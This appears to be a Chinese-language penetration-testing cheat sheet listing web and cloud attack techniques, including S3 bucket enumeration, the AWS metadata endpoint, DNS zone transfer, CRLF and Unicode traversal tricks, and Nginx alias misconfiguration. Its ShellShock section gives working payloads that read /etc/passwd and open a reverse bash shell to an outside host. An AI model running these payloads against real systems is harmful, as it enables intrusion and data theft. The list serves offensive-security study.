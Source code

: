 - AWS常见漏洞
    - S3 bucket权限配置错误
        - nslookup判断
            - `nslookup 87.87.87.87`
            - `s3-website-us-west-2.amazonaws.com.`
        - 确认bucket
            - 访问`bucketname.s3.amazonaws.com`
            - 成功会返回bucket XML信息
        - awscli工具
            - 列目录 `aws s3 ls s3://bucketname/ --region regionname`
            - 下载 `aws sync s3://bucketname/ localdir --region regionname`
    - metadata
        - http://169.254.169.254/latest/meta-data/
        - Tool 
            - https://andresriancho.github.io/nimbostratus/

- 常见Port服务
    - http://packetlife.net/media/library/23/common_ports.pdf
- `php -i | grep "Loaded Configuration File"`
    
    - 列出php.ini路径

- `curl -i -X OPTIONS 'http://evil.com/'`

- ShellShock
    
    - `() { :; }; echo vulnerable`
    - `() { :a; }; /bin/cat /etc/passwd`
    - `() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/rs.panja.cc/1234 0>&1'`

- X-forwarded-for伪造来源IP

- DNS Zone Transfer
    - `dig @1.2.3.4 abc.com axfr`
        - DNS Server: `1.2.3.4`
        - Test Domain: `abc.com`

- NodeJS unicode failure
    - 内部使用UCS-2编码
    - `ＮＮ` => `..`
        - `Ｎ` 即 `\xff\x2e`
        - 转型时舍弃第一个Byte

- 特殊的CRLF Injection绕过
    - `%E5%98%8A`
    - 原始的Unicode码为`U+560A`
    - raw bytes: `0x56`, `0x0A`

- MySQL utf8 v.s. utf8mb4
    - MySQL utf8编码只支持3 bytes
    - 若将4 bytes的utf8mb4插入utf8中，在non strict模式下会被截断
    - CVE-2015-3438 WordPress Cross-Site Scripting Vulnerability

- Nginx目录穿越漏洞
    - 常见于Nginx做Reverse Proxy的状况
    ```
    location /files {
        alias /home/
    }
    ```
    - 因为`/files`没有加上结尾`/`，而`/home/`有
    - 所以`/files../`可以访问上层目录
